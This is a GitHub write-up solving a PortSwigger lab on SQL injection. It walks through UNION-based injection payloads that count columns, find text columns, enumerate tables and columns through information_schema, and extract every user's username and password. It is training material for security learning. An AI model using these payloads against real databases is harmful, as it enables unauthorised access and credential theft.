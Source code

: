 ![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/2d6622d8-f4a0-46ac-b83d-d3e221c3dd3a)![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/e01a1896-1a40-4ae5-92a3-2e6ea1e984ff)## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/3cf9ef5a-c9ad-4800-949d-dd81ea9b8e22)

## Solution :

Query made - 

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

## You can list the tables that exist in the database, and the columns that those tables contain in a non-Oracle database.

### List the tables that exist in the database

```sql
SELECT * FROM information_schema.tables
```
### The columns that those tables contain

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
#### Finding out the number of columns -

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ' UNION SELECT NULL,NULL--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/e5ef5d6e-34f5-4b4d-9ad3-4db748145142)

**2 NULL** returns no error , which means there are 2 columns in the database.

####  Finding out which columns contain text data -


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'Ananthan','red' --
```
both columns contains text data .

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/22682f0a-8a1a-473a-94c1-8daf320ece75)

### Database contents-

#### Display the table present in the database-

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT table_name,NULL FROM information_schema.tables--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/3264a60f-b42b-4bbe-8e32-8287d0000f60)


#### Display the column present in the database-

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_xtnjul'--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/f389cc99-a5f5-43fd-a0b0-12ce138e257b)

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/f2ff7eeb-59de-4259-811e-98274f44f627)

#### Retreive information from the columns username_wknxhc&password_jodrot from the table users_xtnjul -


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT username_wknxhc,password_jodrot FROM users_xtnjul--
```
Now we get the username and password of all users.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/08c71d5f-3634-4436-94f6-4f62aab40afc)




